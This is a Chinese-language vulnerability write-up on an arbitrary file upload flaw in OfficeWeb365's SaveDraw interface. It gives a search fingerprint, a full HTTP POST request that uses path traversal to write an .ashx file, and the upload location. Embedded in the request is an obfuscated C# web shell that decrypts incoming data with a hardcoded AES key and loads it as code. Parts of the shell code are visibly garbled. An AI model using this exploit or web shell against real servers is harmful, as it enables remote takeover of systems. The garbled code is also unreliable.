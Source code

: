 # OfficeWeb365 SaveDraw 任意文件上传漏洞

## 漏洞描述

OfficeWeb365 SaveDraw 接口存在任意文件上传漏洞，攻击者通过漏洞可以在服务器中上传任意文件获取服务器权限

## 漏洞影响

OfficeWeb365

## 网络测绘

```
"OfficeWeb365"
```

## 漏洞复现

产品页面

![image-20230828143123592](images/image-20230828143123592.png)

验证POC

```
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Length: 990
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

![image-20230828143155818](images/image-20230828143155818.png)

上传地址

```
/Content/img/UserDraw/drawPW6.ashx
```
